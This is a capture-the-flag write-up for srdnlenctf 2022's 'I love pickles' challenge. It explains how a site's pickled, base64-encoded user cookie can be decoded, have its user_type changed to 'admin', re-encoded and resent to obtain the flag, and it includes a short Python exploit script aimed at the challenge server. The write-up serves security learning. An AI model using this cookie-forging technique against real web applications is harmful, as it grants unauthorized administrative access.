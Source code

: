 # srdnlenctf 2022

## I love pickles (X solves)

This challenge uses the pickle module to save the user permissions (anonymous or admin). We need to change the cookie to become "admin" and see the flag.

### Solution

To find the flag we have to change the cookie, which is a pickle of the class "User", we become aware of this class if we try to unpickle the cookie without having it defined. Then we can use Python introspection (dir) to see the attributes of the class, there is a "user_type" attribute that we need to change from "Anonymous" to "admin" as instructed in the website. Then we send the new pickled class and we can see the flag in the website.

### Exploit

```python
#!/bin/env python3

import requests
import logging
import os
import pickle
import base64
import re
logging.disable()

class User:
    pass

# Se challenge web
URL = os.environ.get("URL", "http://ilovepickles.challs.srdnlen.it")
URL = "http://localhost:8081"
session = requests.session()
r = session.get(URL)
user = r.cookies.get_dict()['userInfo']
user = pickle.loads(base64.b64decode(user))
user.user_type = "admin"
user = base64.b64encode(pickle.dumps(user))
user = user.decode("utf-8")

session.cookies.set('userInfo', None)
session.cookies.set('userInfo', user)

r = session.get(URL+"/flag")

flag = re.search("srdnlen{(.*)}", r.text).group(0)

print(flag)

```
